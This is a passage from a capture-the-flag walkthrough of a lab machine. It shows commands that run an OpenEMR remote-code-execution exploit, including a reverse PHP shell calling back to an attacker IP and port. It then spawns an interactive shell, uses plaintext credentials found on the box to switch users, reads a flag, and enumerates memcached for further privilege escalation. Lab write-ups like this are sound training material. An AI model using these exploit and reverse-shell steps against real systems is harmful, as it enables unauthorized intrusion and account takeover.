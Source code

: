 Afterward I created my own exploit for OpenEMR RCE: https://github.com/noraj/OpenEMR-RCE

```
$ ruby OpenEMR-RCE/exploit.rb auto -r http://hms.htb -u openemr_admin -p xxxxxx -h 10.10.15.201 -t 8888
$ ruby OpenEMR-RCE/exploit.rb semi-auto -r http://hms.htb -u openemr_admin -p xxxxxx -h 10.10.15.201 -t 8888 -m 'php/reverse_php'
$ ruby OpenEMR-RCE/exploit.rb manual -r http://hms.htb -u openemr_admin -p xxxxxx -s tmp548.php
```

### Privilege Escalation of Machine : www-data to ash

We can use the credentials (`ash` / `H@v3_fun`) we found at the beginning.

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cache:/$ su ash
su ash
Password: H@v3_fun

ash@cache:/$ cd
cd
ash@cache:~$ cat user.txt
cat user.txt
aebbdcd5e2a33812b7db84f42f124ea5
```

But this is totally optional it's possible to jump over this step and directly
elevate to user luffy from www-data.

### Privilege Escalation of Machine : ash to luffy

Let's see open TCP sockets:

```
$ ss -nlpt
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*
LISTEN   0         128               127.0.0.1:11211            0.0.0.0:*
LISTEN   0         128                    [::]:22                  [::]:*
LISTEN   0         128                    [::]:11211               [::]:*
LISTEN   0         128                       *:80                     *:*
```

Ohoh we have port 11211 used by memcached.

We can confirm the process is running:

```
$ ps -ef f | grep memcached
memcache  1125     1  0 22:39 ?        Ssl    0:00 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
ash       6235  5474  0 23:30 pts/1    S+     0:00  |                           \_ grep --color=auto memcached
www-data  4693  4669  0 23:04 ?        Sl     0:00  |               \_ memcached
```
